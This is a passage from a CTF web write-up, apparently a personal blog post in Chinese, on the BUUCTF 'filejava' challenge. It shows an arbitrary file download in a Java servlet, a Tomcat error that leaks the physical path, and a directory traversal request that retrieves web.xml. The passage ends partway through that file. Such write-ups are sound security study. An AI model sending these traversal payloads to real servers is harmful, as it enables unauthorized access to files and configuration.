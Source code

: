 ```yaml
---
title: "BUUCTF Web Writeup 10"
date: 2022-12-24T18:14:54+08:00
lastmod: 2022-12-24T18:14:54+08:00
draft: false
author: "X1r0z"

tags: ['ctf']
categories: ['Writeup']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


BUUCTF 刷题记录...



## [网鼎杯 2020 青龙组]filejava

文件上传点 `/UploadServlet`, 上传后会返回下载链接

```
/DownloadServlet?filename=c41257bd-c13b-41c2-95c6-f74ffd733c71_2.png
```

存在任意文件下载, 将 fiename 置空能得到 tomcat 报错信息

![image-20221221172210952](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212211722992.png)

报错信息中泄露了物理路径, 然后目录穿越到 WEB-INF 目录下载 web.xml

```
/DownloadServlet?filename=../../../web.xml
```

```xml
<?xml version="1.0" encoding="UTF-8"?>
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
         version="4.0">
    <servlet>
        <servlet-name>DownloadServlet</servlet-name>
        <servlet-class>cn.abc.servlet.DownloadServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>DownloadServlet</servlet-name>
        <url-pattern>/DownloadServlet</url-pattern>
    </servlet-mapping>

    <servlet>
        <servlet-name>ListFileServlet</servlet-name>
        <servlet-class>cn.abc.servlet.ListFileServlet</servlet-class>
    </servlet>

    <servlet-mapping>
        <servlet-name>ListFileServlet</servlet-name>
```